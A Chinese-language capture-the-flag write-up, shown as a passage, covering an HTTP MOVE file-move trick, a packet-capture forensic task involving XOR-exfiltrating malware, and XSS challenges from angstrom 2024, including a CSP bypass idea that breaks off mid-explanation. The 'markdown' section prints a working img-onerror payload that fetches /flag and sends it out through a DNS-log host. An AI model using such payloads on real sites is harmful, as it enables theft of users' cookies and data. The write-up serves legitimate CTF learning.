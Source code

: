 之后，我突发奇想对主页进行了`OPTIONS`请求，发现它还支持MOVE方法。根据文档，这个MOVE方法可以请求文件移动（需要加一个Destination HTTP头）。我们可以把关心的文件（比如源码和flag）移动到flask的static目录，从而直接读取（不过这个flask应该是debug模式吧，按说移动源码应该会导致flask重载）

### forensic - 1337 malware
给了一个流量包。分析可以知道，受害者下载并执行了一个Python代码，根据python代码我们知道是把同目录所有文件进行cyclic xor后用socket发送到远程服务器。之后根据TCP Stream记录，发送了多个文件，包括一个PNG，一个PDF，一个ZIP包，一个SSH格式id_rsa id_rsa.pub公私钥文件。

这里面最长的已知明文是OPENSSH的私钥文件：
```s
-----BEGIN OPENSSH PRIVATE KEY-----
```
实际上已知密钥比这个明文要短（已经循环了），所以可以复原出所有文件。最后flag在加密的ZIP包里，而密码在PDF文件里。

## angstorm 2024
这个比赛也号称是给高中生办的，但是我的感觉是虽然送分题很多，但是难题也多（虽然不少题比较猜，或者比较怪）。特别是Web题里大量的XSS题目给人印象深刻

### web - markdown
XSS之1，这个题算是一个markdown的静态挂载服务，可以由nodejs服务器用`marked`渲染后显示。也有一个`/flag` endpoint，但是必须要有cookie，想必XSSBOT是有这个cookie的。

虽然marked过滤了`script`标签，但我们仍然可以用`img`标签的`onerror`属性来执行内联javascript代码。此外这个题的XSSBOT是通外网的，因此可以用`DNSlog`平台带出数据

> 关于带出数据：
> 我目前用的[dnslog.org](https://dnslog.org/)忽略大小写，有些特殊符号不行（特别是Base64的部分符号），子域名长度也有限制，总的来说没那么好用。
> 一般还有个解决方案是用BUUOJ的apache的access log，但是很大的问题是它是HTTP的，而从HTTPS对HTTP进行fetch会被mixed content policy阻止，所以可能还得要其他方案（如果有一套自动把BUUOJ的HTTP改为HTTPS + 自签名证书的代码就比较理想了）

```javascript
fetch('/flag').then((res)=>{return res.text()}).then((text)=>
	{var s=encodeURIComponent(text).replaceAll('%','-');console.log(s);
	fetch(`https://${s}.5c910bcd.log.dnslog.biz`)})

<img src="" onerror="{{code}}"/>
```

### web - tickler （好题）
XSS之2，这个题是我第一次接触浏览器的`Content-Security-Policy`（或者CSP），这个技术算是从浏览器层面阻止XSS的一道防线，限定了可以被加载的资源（主要可以通过资源的位置/hash来限制）。这个题的`script-src 'self'`就限定了所有javascript资源只能来自同源。

这个题虽然本身复杂，但是其实还是一个用户账户系统，我们可以注册登录普通权限账户，但需要有特定TOKEN才能注册admin账户（难度和获取FLAG一样）（对应到题目中，就是一个Tickler的属性为有限整数；admin账户是Infinity）。这个题大部分API都是通过trpc实现的，不过和这个题关系不大，只是让前端代码变复杂了。

#### XSS和CSP

本题XSS点在于`/login?error={{xxx}}`这里是用的`innerHTML`，而且没有过滤。虽然我是fuzz出来的，但是似乎正确做法是去看前端代码`/build/client.js`，绝大多数编辑页面内容的JS代码都是用的`dom.textComponent`，这个属性按MDN的说法几乎是XSS free的（除非某些特殊情况，比如script tag里用这个可能会出问题）。然而，内联script标签属于`unsafe-inline`，而目前CSP规则是同源（`self`），因此直接在error这里内联是会被阻止的，这包括两个层面：

- 根据HTML5 spec，通过innerHTML增加的script tag不应被执行（和CSP无关）
- 通过img.onerror, svg.onload等方式回调的代码，属于`unsafe-inline`范畴

破局点在于一个`setPicture`这个功能，它可以用来设置用户的头像。具体来说，我们可以提供一个URL，服务器fetch这个URL后，拿到mime type和data后存储，随后在请求`/picture?username={{user}}`时，以`data:{type};base64,{b64encoded_data}`的形式返回。这里对mime type没有任意限制，如果有一个我们可以控制的服务器，我们可以往mime type里塞任何东西。
